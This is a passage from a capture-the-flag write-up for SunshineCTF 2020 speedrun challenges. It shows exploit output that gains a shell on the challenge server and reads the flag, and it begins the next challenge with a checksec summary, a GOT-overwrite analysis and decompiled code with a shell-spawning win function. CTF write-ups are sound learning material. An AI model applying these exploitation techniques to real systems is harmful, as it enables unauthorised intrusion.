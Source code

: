 Output:

```bash  
# ./exploit_07.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-07/chall_07'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to chal.2020.sunshinectf.org on port 30007: Done  
[*] Switching to interactive mode  
In the land of raw humanity$ id  
uid=1000(chall_07) gid=1000(chall_07) groups=1000(chall_07)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8440 Nov  7 07:49 chall_07  
-rw-r----- 1 root chall_07   33 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{sidewinder-a80d0be1840663c4}  
```

## speedrun-08

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

No canary--BOF, No RELRO--GOT overwrite, and more..., No PIE--Easy ROP, GOT
overwrite.

### Decompile with Ghidra

```c  
void main(void)  
{  
 undefined8 local_18;  
 int local_c;  
  
 __isoc99_scanf(&%d,&local_c);  
 __isoc99_scanf(&%ld,&local_18);  
 *(undefined8 *)(target + (long)local_c * 8) = local_18;  
 puts("hi");  
 return;  
}

void win(void)  
{  
 system("/bin/sh");  
 return;  
}  
```
